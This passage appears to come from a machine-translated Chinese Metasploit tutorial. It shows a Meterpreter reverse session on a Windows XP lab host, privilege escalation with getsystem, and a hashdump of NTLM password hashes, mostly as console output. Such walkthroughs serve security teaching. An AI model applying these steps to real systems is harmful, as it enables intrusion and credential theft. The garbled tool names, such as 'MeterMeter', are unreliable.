 ```

    [*] Started reverse handler on 192.168.0.3:4444
    [*] Automatically detecting the target...
    [*] Fingerprint: Windows XP Service Pack 2 - lang:English
    [*] Selected Target: Windows XP SP2 English (NX)
    [*] Attempting to trigger the vulnerability...
    [*] Sending stage (749056 bytes) to 192.168.0.7
    [*] Meterpreter session 1 opened (192.168.0.3:4444 ->
192.168.0.7:1029) at Sun Nov 14 02:44:26 +0000 2010
    meterpreter> help
    ... 
```

如你所见，我们已经成功地获得了一个流量计外壳。通过键入，我们将能够看到各种类型的可用命令。让我们检查我们当前的权限，并使用名为`getsystem`的 MeterMeter 脚本将其升级到`SYSTEM`级别：

```
    meterpreter>getuid
    Server username: CUSTDESKsalesdept
    meterpreter> use priv
    meterpreter>getsystem -h
    ...
```

这将显示可用于提升我们特权的技术数量。通过使用默认命令`getsystem`，在没有任何选项的情况下，它将尝试针对目标的每一项技术，并在成功后立即停止：

```
 meterpreter>getsystem
    ...got system (via technique 1).
    meterpreter>getuid
    Server username: NT AUTHORITYSYSTEM
    meterpreter>sysinfo
    Computer: CUSTDESK
    OS      : Windows XP (Build 2600, Service Pack 2).
    Arch    : x86
    Language: en_US 
```

如果选择执行`-j -z`利用命令，则将利用执行推到后台，并且不会显示交互式 MeterMeter 外壳。但是，如果会话已成功建立，则您可以使用会话`-i`ID 与该特定会话进行交互，或者通过键入会话`-l`以获取确切的 ID 值来获取活动会话的列表。

让我们使用 MeterMeter 外壳的功能，转储目标持有的当前系统帐户和密码。这些将以 NTLM 哈希格式显示，并可通过使用以下命令通过多种工具和技术进行破解来反转：

```
 meterpreter> run hashdump
    [*] Obtaining the boot key...
    [*] Calculating the hboot key using SYSKEY 71e52ce6b86e5da0c213566a1236f892...
    [*] Obtaining the user list and keys...
    [*] Decrypting user keys...
    [*] Dumping password hashes...
    h
    Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
    Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
    HelpAssistant:1000:d2cd5d550e14593b12787245127c866d:d3e35f657c924d0b31eb811d2d986df9:::
    SUPPORT_388945a0:1002:aad3b435b51404eeaad3b435b51404ee:c8edf0d0db48cbf7b2835ec013cfb9c5:::
    Momin Desktop:1003:ccf9155e3e7db453aad3b435b51404ee:3dbde697d71690a769204beb12283678:::
    IUSR_MOMINDESK:1004:a751dcb6ea9323026eb8f7854da74a24:b0196523134dd9a21bf6b80e02744513:::
    ASPNET:1005:ad785822109dd077027175f3382059fd:21ff86d627bcf380a5b1b6abe5d8e1dd:::
    IWAM_MOMINDESK:1009:12a75a1d0cf47cd0c8e2f82a92190b42:c74966d83d519ba41e5196e00f94e113:::
    h4x:1010:ccf9155e3e7db453aad3b435b51404ee:3dbde697d71690a769204beb12283678:::
    salesdept:1011:8f51551614ded19365b226f9bfc33fab:7ad83174aadb77faac126fdd377b1693::: 
```
